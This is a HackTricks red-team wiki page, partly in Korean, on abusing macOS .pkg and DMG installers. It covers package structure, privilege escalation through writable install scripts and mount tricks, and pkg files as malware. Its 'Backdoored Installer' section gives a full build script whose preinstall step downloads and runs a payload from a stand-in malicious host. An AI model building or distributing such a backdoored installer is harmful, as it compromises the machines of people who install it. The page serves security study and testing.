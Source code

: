 # macOS Installers Abuse

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Pkg Basic Information

macOS **설치 패키지** (또는 `.pkg` 파일로 알려짐)는 macOS에서 **소프트웨어를 배포하는 데 사용되는 파일 형식**입니다. 이 파일들은 **소프트웨어가 올바르게 설치되고 실행되는 데 필요한 모든 것을 포함하는 상자**와 같습니다.

패키지 파일 자체는 **대상** 컴퓨터에 설치될 **파일 및 디렉토리의 계층 구조를 포함하는 아카이브**입니다. 또한 **설치 전후에 작업을 수행하는 스크립트**를 포함할 수 있으며, 예를 들어 구성 파일을 설정하거나 소프트웨어의 이전 버전을 정리하는 작업을 수행합니다.

### Hierarchy

<figure><img src="../../../.gitbook/assets/Pasted Graphic.png" alt="https://www.youtube.com/watch?v=iASSG0_zobQ"><figcaption></figcaption></figure>

* **Distribution (xml)**: 사용자 정의 (제목, 환영 텍스트…) 및 스크립트/설치 확인
* **PackageInfo (xml)**: 정보, 설치 요구 사항, 설치 위치, 실행할 스크립트 경로
* **Bill of materials (bom)**: 설치, 업데이트 또는 제거할 파일 목록 및 파일 권한
* **Payload (CPIO archive gzip compresses)**: PackageInfo에서 `install-location`에 설치할 파일
* **Scripts (CPIO archive gzip compressed)**: 설치 전후 스크립트 및 실행을 위해 임시 디렉토리에 추출된 추가 리소스.

### Decompress
```bash
# Tool to directly get the files inside a package
pkgutil —expand "/path/to/package.pkg" "/path/to/out/dir"

# Get the files ina. more manual way
mkdir -p "/path/to/out/dir"
cd "/path/to/out/dir"
xar -xf "/path/to/package.pkg"

# Decompress also the CPIO gzip compressed ones
cat Scripts | gzip -dc | cpio -i
cpio -i < Scripts
```
In order to visualize the contents of the installer without decompressing it manually you can also use the free tool [**Suspicious Package**](https://mothersruin.com/software/SuspiciousPackage/).

## DMG 기본 정보

DMG 파일, 또는 Apple Disk Images,는 Apple의 macOS에서 디스크 이미지를 위해 사용되는 파일 형식입니다. DMG 파일은 본질적으로 **마운트 가능한 디스크 이미지**(자체 파일 시스템을 포함함)로, 일반적으로 압축되고 때때로 암호화된 원시 블록 데이터를 포함합니다. DMG 파일을 열면 macOS가 **물리적 디스크처럼 마운트**하여 그 내용을 접근할 수 있게 합니다.

{% hint style="danger" %}
**`.dmg`** 설치 프로그램은 **매우 많은 형식**을 지원하므로, 과거에 취약점을 포함한 일부가 **커널 코드 실행**을 얻기 위해 악용되었습니다.
{% endhint %}

### 계층 구조

<figure><img src="../../../.gitbook/assets/image (225).png" alt=""><figcaption></figcaption></figure>

DMG 파일의 계층 구조는 내용에 따라 다를 수 있습니다. 그러나 애플리케이션 DMG의 경우, 일반적으로 다음 구조를 따릅니다:

* 최상위: 이것은 디스크 이미지의 루트입니다. 일반적으로 애플리케이션과 애플리케이션 폴더에 대한 링크를 포함합니다.
* 애플리케이션 (.app): 이것은 실제 애플리케이션입니다. macOS에서 애플리케이션은 일반적으로 애플리케이션을 구성하는 여러 개별 파일과 폴더를 포함하는 패키지입니다.
* 애플리케이션 링크: 이것은 macOS의 애플리케이션 폴더에 대한 바로 가기입니다. 이 목적은 애플리케이션을 쉽게 설치할 수 있도록 하는 것입니다. .app 파일을 이 바로 가기로 드래그하여 앱을 설치할 수 있습니다.

## pkg 악용을 통한 권한 상승

### 공개 디렉토리에서의 실행

예를 들어, 설치 전 또는 후 스크립트가 **`/var/tmp/Installerutil`**에서 실행되고, 공격자가 해당 스크립트를 제어할 수 있다면, 그는 실행될 때마다 권한을 상승시킬 수 있습니다. 또는 또 다른 유사한 예:

<figure><img src="../../../.gitbook/assets/Pasted Graphic 5.png" alt="https://www.youtube.com/watch?v=iASSG0_zobQ"><figcaption><p><a href="https://www.youtube.com/watch?v=kCXhIYtODBg">https://www.youtube.com/watch?v=kCXhIYtODBg</a></p></figcaption></figure>

### AuthorizationExecuteWithPrivileges

이것은 여러 설치 프로그램과 업데이트 프로그램이 **루트로 무언가를 실행하기 위해 호출하는 [공개 함수](https://developer.apple.com/documentation/security/1540038-authorizationexecutewithprivileg)**입니다. 이 함수는 **실행할 파일의 경로**를 매개변수로 받아들이지만, 공격자가 이 파일을 **수정**할 수 있다면, 그는 루트로 실행을 **악용**하여 **권한을 상승**시킬 수 있습니다.
```bash
# Breakpoint in the function to check wich file is loaded
(lldb) b AuthorizationExecuteWithPrivileges
# You could also check FS events to find this missconfig
```
For more info check this talk: [https://www.youtube.com/watch?v=lTOItyjTTkw](https://www.youtube.com/watch?v=lTOItyjTTkw)

### Execution by mounting

설치 프로그램이 `/tmp/fixedname/bla/bla`에 쓸 경우, 소유자가 없는 `/tmp/fixedname` 위에 **마운트를 생성**하여 설치 과정 중에 **파일을 수정**하여 설치 프로세스를 악용할 수 있습니다.

이의 예로 **CVE-2021-26089**가 있으며, 이는 **주기적인 스크립트를 덮어쓰는** 방식으로 루트 권한으로 실행을 얻었습니다. 더 많은 정보는 다음 강의를 참조하세요: [**OBTS v4.0: "Mount(ain) of Bugs" - Csaba Fitzl**](https://www.youtube.com/watch?v=jSYPazD4VcE)

## pkg as malware

### Empty Payload

실제 페이로드 없이 **악성 코드**가 포함된 **사전 및 사후 설치 스크립트**로 **`.pkg`** 파일을 생성하는 것이 가능합니다.

### JS in Distribution xml

패키지의 **배포 xml** 파일에 **`<script>`** 태그를 추가할 수 있으며, 해당 코드는 실행되어 **`system.run`**을 사용하여 **명령을 실행**할 수 있습니다:

<figure><img src="../../../.gitbook/assets/image (1043).png" alt=""><figcaption></figcaption></figure>

### Backdoored Installer

dist.xml 내부에 스크립트와 JS 코드를 사용하는 악성 설치 프로그램
```bash
# Package structure
mkdir -p pkgroot/root/Applications/MyApp
mkdir -p pkgroot/scripts

# Create preinstall scripts
cat > pkgroot/scripts/preinstall <<EOF
#!/bin/bash
echo "Running preinstall script"
curl -o /tmp/payload.sh http://malicious.site/payload.sh
chmod +x /tmp/payload.sh
/tmp/payload.sh
exit 0
EOF

# Build package
pkgbuild --root pkgroot/root --scripts pkgroot/scripts --identifier com.malicious.myapp --version 1.0 myapp.pkg

# Generate the malicious dist.xml
cat > ./dist.xml <<EOF
<?xml version="1.0" encoding="utf-8"?>
<installer-gui-script minSpecVersion="1">
<title>Malicious Installer</title>
<options customize="allow" require-scripts="false"/>
<script>
<![CDATA[
function installationCheck() {
if (system.isSandboxed()) {
my.result.title = "Cannot install in a sandbox.";
my.result.message = "Please run this installer outside of a sandbox.";
return false;
}
return true;
}
function volumeCheck() {
return true;
}
function preflight() {
system.run("/path/to/preinstall");
}
function postflight() {
system.run("/path/to/postinstall");
}
]]>
</script>
<choices-outline>
<line choice="default">
<line choice="myapp"/>
</line>
</choices-outline>
<choice id="myapp" title="MyApp">
<pkg-ref id="com.malicious.myapp"/>
</choice>
<pkg-ref id="com.malicious.myapp" installKBytes="0" auth="root">#myapp.pkg</pkg-ref>
</installer-gui-script>
EOF

# Buil final
productbuild --distribution dist.xml --package-path myapp.pkg final-installer.pkg
```
## References

* [**DEF CON 27 - Unpacking Pkgs A Look Inside Macos Installer Packages And Common Security Flaws**](https://www.youtube.com/watch?v=iASSG0\_zobQ)
* [**OBTS v4.0: "The Wild World of macOS Installers" - Tony Lambert**](https://www.youtube.com/watch?v=Eow5uNHtmIg)
* [**DEF CON 27 - Unpacking Pkgs A Look Inside MacOS Installer Packages**](https://www.youtube.com/watch?v=kCXhIYtODBg)
* [https://redteamrecipe.com/macos-red-teaming?utm\_source=pocket\_shared#heading-exploiting-installer-packages](https://redteamrecipe.com/macos-red-teaming?utm\_source=pocket\_shared#heading-exploiting-installer-packages)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
